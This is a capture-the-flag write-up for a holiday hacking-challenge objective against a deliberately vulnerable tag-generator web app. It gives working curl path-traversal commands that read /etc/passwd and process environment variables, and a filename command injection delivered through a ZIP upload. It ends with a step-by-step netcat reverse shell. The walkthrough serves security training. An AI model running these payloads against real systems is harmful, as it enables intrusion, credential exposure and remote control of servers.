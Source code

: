# Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal (the full path of `app.rb` is displayed in the application's error messages):
```
curl https://tag-generator.kringlecastle.com/image?id=../../app/lib/app.rb --output app.rb
```
The application code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\;env\>joergen\;\'.jpg
jsw@io:*$ zip joergen.zip \'\;env\>joergen\;\'.jpg 
  adding: ';env>joergen;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
**Option 1**
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell (filename needs to end with an image extention as the application checks for that):
```
printf "@ joergen.jpg\n@=';nc <your IP address> 4444 -e \`which bash\`;'.jpg\n" | zipnote -w joergen.zip
```

**Option 2**
Create the tailored filename directly:
```
touch \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
zip joergen.zip \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
```

**Common part**
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
The user `app` has write access to `/tmp` and `/home/app`.
In addition the user has write access to `/usr/local/bundle`, where the web server is located.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MjY4MTc5MjQsMjEyNTU5OTAzNiwxND
QwMDk3MDgzLC05MzU4MTMyODgsLTYxMzQ0OTY1NiwtMTA1MjE2
MzYxNywtMTc2MzU0MTM1NSwxNjA3MzQ4NTE0LC04MjMwNTA4Nj
EsMTI5MzcyMDQzOSwxMzk1Nzk0ODI0LC0xNTk5MjU0NDE1LC02
MTkyOTc0MTEsLTU3NjYxMDA3NSwyMTA3NTI5ODQ2LDkyMjE0ND
M1LC0zOTg0OTE0NjEsMTE1MTU1Njg5NiwyMzg0NjAyNzIsMTkz
MzM2MTc4N119
-->